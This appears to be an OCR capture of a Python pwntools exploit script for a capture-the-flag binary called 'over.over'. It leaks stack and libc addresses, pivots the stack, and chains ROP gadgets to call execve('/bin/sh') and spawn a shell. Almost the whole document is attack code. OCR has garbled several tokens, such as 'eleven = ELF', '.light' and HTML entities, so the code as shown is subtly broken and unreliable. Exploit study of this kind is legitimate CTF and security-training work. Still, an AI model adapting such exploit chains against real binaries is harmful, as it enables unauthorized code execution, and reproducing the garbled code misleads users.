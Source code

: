 ```python


io = process("./over.over")

eleven = ELF (&quot;./over.over&quot;)
libc = elf.libc



io.sendafter(">", 'a' * 80)

stack = u64 (io.recvuntil (&quot;x7f&quot;) [- 6:] .light (8, &#39;0&#39;)) - 0x70
success("stack -> {:#x}".format(stack))





#  DEBUG("b *0x4006B9\nc")

io.sendafter(">", flat(['11111111', 0x400793, elf.got['puts'], elf.plt['puts'], 0x400676, (80 - 40) * '1', stack, 0x4006be]))

libc.address = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - libc.sym['puts']

success("libc.address -> {:#x}".format(libc.address))



pop_rdi_ret = 0x400793
'''

$ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only &quot;pop | ret&quot;
0x00000000000f5279 : pop rdx ; pop rsi ; ret

'''

pop_rdx_pop_rsi_ret=libc.address+0xf5279





payload=flat(['22222222', pop_rdi_ret, next(libc.search("/bin/sh")),pop_rdx_pop_rsi_ret,p64(0),p64(0), libc.sym['execve'], (80 - 7*8 ) * '2', stack - 0x30, 0x4006be])



io.sendafter(">", payload)



io.interactive ()
```

